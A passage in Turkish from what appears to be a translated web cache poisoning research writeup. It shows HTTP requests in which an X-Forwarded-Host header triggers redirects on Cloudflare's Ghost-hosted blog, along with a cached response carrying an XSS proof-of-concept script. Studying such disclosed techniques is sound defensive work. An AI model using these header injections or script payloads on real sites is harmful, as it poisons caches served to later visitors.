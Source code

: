 <div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>HTTP/1.1 200 OK
…
<span style="color:DodgerBlue">&lt;script&gt;alert<span class="o">(</span>document.domain<span class="o">)</span>&lt;/script&gt;</span>
</code></pre></div></div>

Servis cloudflare ile önbellek tutuğu için bu zararlı yanıt önbellek üzerinden sonraki ziyaretçilere sunulmuş oldu.

### Gizli Yönlendirme Zehirlemesi

Yönlendirme zehirlemesi açıkları her zaman bir önceki örnekte olduğu kadar aşikar olmayabilir:

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>GET / HTTP/1.1
Host: blog.cloudflare.com
<span style="color:DodgerBlue">X-Forwarded-Host: test-degeri</span>
</code></pre></div></div>

```bash
HTTP/1.1 302 Found
Location: https://ghost.org/fail/ 
```

Cloudflare’ın blog’unun Ghost üzerinde barındırıldığını ve `X-Forwarded-Host` başlığının da Ghost üzerinde bir etkisi(fail yanıtı döndü) olduğunu aldığımız çıktıdan görebiliyoruz. Eğer hata yönlendirmesinden kaçınmak isterseniz [blog.binary.com](http://blog.binary.com) gibi bilinen bir blog adresini host olarak belirtebilirsiniz. Ancak tuhaf bir biçimde bu yalnızca 10 saniyelik gizemli bir gecikme ve ardından standaert [blog.cloudflare.com](http://blog.cloudflare.com) yanıtı ile sonuçlanır. 

Yeni bir kullanıcı Ghost üzerinde ilk kez blog kaydettirdiğinde, [ghost.io](http://ghost.io) altında benzersiz bir alt alan adı üretiliyor. Tabii bu kullanıcı dilerse bu mevcut blog için [blog.cloudflare.com](http://blog.cloudflare.com/) gibi isteğe bağlı bir özel alan adı tanımlayabilir. Bir kullanıcı özel bir alan adı tanımladıysa, [Ghost.io](http://ghost.io/) alt alanı basitçe bu alana yönlendirilecektir:

```bash
GET / HTTP/1.1
Host: alan-adi.ghost.io
```

```bash
HTTP/1.1 302 Found
Location: http://ozel-alan-adi.blog/
```

En önemlisi, aslında bu yönlendirme `X-Forwarded-Host` başlığı kullanılarak da tetiklenebilir:

```bash
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: alan-adi.ghost.io
```

```bash
HTTP/1.1 302 Found
Location: http://ozel-alan-adi.blog/
```
